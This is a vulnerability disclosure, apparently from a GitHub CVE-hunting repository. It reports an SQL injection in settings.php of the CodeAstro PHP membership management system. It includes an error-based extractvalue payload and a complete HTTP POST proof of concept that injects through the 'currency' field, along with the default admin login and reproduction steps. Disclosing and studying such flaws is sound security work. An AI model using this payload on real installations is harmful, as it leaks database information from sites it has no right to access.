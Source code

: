# SQLi-2

# Vulnerability Description

The membership-management-system in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author:  GaoJiaDong
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /settings.php

# Vulnerability Verification

[+] Payload:

```http
$'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/membership/settings.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 551
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykDL01BGLdaAAiTIL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/membership/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vh18091oo0f1meordh3s83hkfp
Connection: close

------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="systemName"

Membership System
------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="logo"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="currency"

$'and/**/extractvalue(1,concat(char(126),user()))and'
------WebKitFormBoundarykDL01BGLdaAAiTIL
Content-Disposition: form-data; name="updateSettings"


------WebKitFormBoundarykDL01BGLdaAAiTIL--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;

3.The vulnerability is located at the "Settings-Update Settings" function, you should inserts Payload when you Update any  information，as shown in the following figure：

​![image-20240227214116-80ly2bi](https://github.com/JiaDongGao1/CVE_Hunter/assets/161844108/78f3eda3-e1e1-432f-ab3a-5e90dcf28d0c)

![image-20240227214234-31512eo](https://github.com/JiaDongGao1/CVE_Hunter/assets/161844108/e5fbb91b-6b8f-4cb2-b1ca-5b100b2a752d)

​
